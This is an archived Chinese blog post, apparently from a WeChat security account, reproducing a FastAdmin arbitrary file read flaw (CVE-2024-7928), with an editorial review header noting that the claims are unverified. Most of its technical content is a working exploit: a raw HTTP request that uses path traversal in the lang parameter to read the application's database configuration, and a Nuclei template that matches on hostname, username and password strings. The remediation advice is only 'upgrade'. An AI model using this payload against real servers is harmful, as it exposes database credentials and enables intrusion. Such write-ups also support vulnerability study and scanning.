


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Claims&lt;1.3.4.20220530; lab1.0.0.20181031; auth not shown in request

代码与实验材料：GET lang traversal and Nuclei4-key matcher; screenshot response; generic key matches without status/control prone false positives

来源证据范围：WeChat import, no primary advisory/patch

- **事实待核（1）**：Need establish arbitrary-file limits versus PHP language/config loading; fixed version not explicitly sourced。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Nuclei lacks robust response/context and baseline validation。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  【漏洞复现】FastAdmin 任意文件读取漏洞（CVE-2024-7928）   
紫色皓月  皓月的笔记本   2024-10-02 16:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
FastAdmin基于ThinkPHP强大的命令行功能扩展了一系列命令行功能，可以很方便的一键生成CRUD、生成权限菜单、压缩打包CSS和JS、启用禁用插件等功能。  
  
  
漏洞编号：  
  
CVE-2024-7928  
  
  
影响范围：  
  
FastAdmin  <
1.3.4.20220530  
  
  
复现环境：  
  
FastAdmin 1.0.0.20181031  
  
  
0X02   
漏洞复现  
  
POC：  
```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 192.168.31.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```  
  
  
  
Nuclei：  
```
id: FastAdmin-renyiwenjianduqu-CVE-2024-7928

info:
  name: FastAdmin 任意文件读取漏洞-CVE-2024-7928
  author: 紫色皓月
  severity: high
  description: FastAdmin 任意文件读取漏洞
  tags: CVE-2024-7928,2024,FastAdmin,任意文件读取

requests:
  - raw:
    - |
      GET /index/ajax/lang?lang=../../application/database HTTP/1.1
      Host: {{Hostname}}
      Cache-Control: max-age=0
      Upgrade-Insecure-Requests: 1
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
      Accept-Encoding: gzip, deflate, br
      Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
      Connection: keep-alive

    req-condition: true
    matchers:
      - type: word
        words:
          - 'hostname'
          - 'username'
          - 'password'
          - 'database'
        condition: and
```  
  
  
  
  
0X03 修复建议  
  
升级至安全版本！  
  
  
0X04 写在最后  
  
回复“加群”，获取群号。  
  
侵删！  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
